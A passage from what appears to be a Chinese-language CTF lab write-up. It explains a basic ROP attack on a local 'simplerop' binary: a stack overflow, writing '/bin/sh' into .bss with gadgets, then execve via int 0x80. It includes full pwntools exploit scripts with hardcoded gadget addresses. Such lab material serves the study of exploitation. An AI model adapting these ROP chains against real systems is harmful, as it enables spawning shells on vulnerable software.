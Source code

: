 ```python
p += p32(system_addr)
p += 'aaaa'
p += p32(sh_addr)
r.sendline(p)

r.interactive()
```

# lab5

基础的rop

栈溢出，然后通过rop执行`execve("/bin/sh", 0, 0)`。 用ROPgadget寻找gadget，控制eax,ebx,ecx,edx4个寄存器

![image-20220813113157757](/assets/img/2022/image-20220813113157757.png)

有个麻烦点是elf中没有/bin/sh，得自己写一个

![image-20220813113811583](/assets/img/2022/image-20220813113811583.png)

有两种方法，我写的exp方式是通过gadget向bss中写入![image-20220814131119202](/assets/img/2022/image-20220814131119202.png)

第二种方法是通过调用libc的read，elf中有：![image-20220814131216544](/assets/img/2022/image-20220814131216544.png)

调用read，然后输入/bin/sh，存到bss中。

```python
from pwn import *


r = process('./simplerop')
raw_input()
r.recvuntil('Your input :')

pop_edx_ecx_ebx = 0x0806e850 # pop edx ; pop ecx ; pop ebx ; ret
pop_eax = 0x080bae06 # pop eax ; ret
pop_edx = 0x0806e82a # pop edx ; ret
mov = 0x0807b301 # mov dword ptr [eax], edx ; ret
sh_addr = 0x80EBB64
int_0x80 = 0x080493e1 # int 0x80

p = 'a'*(0x1c+0x4)
# write /bin/sh
p += p32(pop_eax)
p += p32(sh_addr)
p += p32(pop_edx)
p += '/bin'
p += p32(mov)
p += p32(pop_eax)
p += p32(sh_addr+4)
p += p32(pop_edx)
p += '/sh\x00'
p += p32(mov)
# execve("/bin/sh", 0, 0)
p += p32(pop_edx_ecx_ebx)
p += p32(0)
p += p32(0)
p += p32(sh_addr)
p += p32(pop_eax)
p += p32(0x0b)
p += p32(int_0x80)
r.sendline(p)

r.interactive()
```